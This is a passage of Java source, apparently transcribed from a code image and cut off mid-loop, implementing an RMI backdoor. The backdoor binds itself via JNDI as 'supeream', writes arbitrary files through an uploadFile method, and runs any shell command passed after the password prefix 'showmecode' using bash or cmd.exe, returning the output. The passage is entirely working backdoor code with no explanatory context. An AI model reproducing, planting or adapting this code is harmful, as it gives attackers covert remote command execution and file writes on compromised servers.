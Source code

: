 ```JAVA
                remote.getServerLocation(args[1]);
            } else if (args.length == 1) {
                Context ctx = new InitialContext();
                if (args[0].equalsIgnoreCase("install")) {
                    ctx.rebind("supeream", remote);
                } else if (args[0].equalsIgnoreCase("uninstall")) {
                    ctx.unbind("supeream");
                }
            }
        } catch (Exception var3) {
        }

    }

    public void setServerLocation(String cmd, String args) throws RemoteException {
    }

    public static void uploadFile(String path, byte[] content) {
        try {
            FileOutputStream fileOutputStream = new FileOutputStream(path);
            fileOutputStream.write(content);
            fileOutputStream.flush();
            fileOutputStream.close();
        } catch (Exception var3) {
        }

    }

    public String getServerLocation(String cmd) throws RemoteException {
        try {
            if (!cmd.startsWith("showmecode")) {
                return "guess me?";
            } else {
                cmd = cmd.substring(10);
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                List<String> cmds = new ArrayList();
                if (cmd.startsWith("$NO$")) {
                    cmds.add(cmd.substring(4));
                } else if (isLinux) {
                    cmds.add("/bin/bash");
                    cmds.add("-c");
                    cmds.add(cmd);
                } else {
                    cmds.add("cmd.exe");
                    cmds.add("/c");
                    cmds.add(cmd);
                }

                ProcessBuilder processBuilder = new ProcessBuilder(cmds);
                processBuilder.redirectErrorStream(true);
                Process proc = processBuilder.start();
                BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
                StringBuffer sb = new StringBuffer();

                String line;
                while((line = br.readLine()) != null) {
                    sb.append(line).append("\n");
```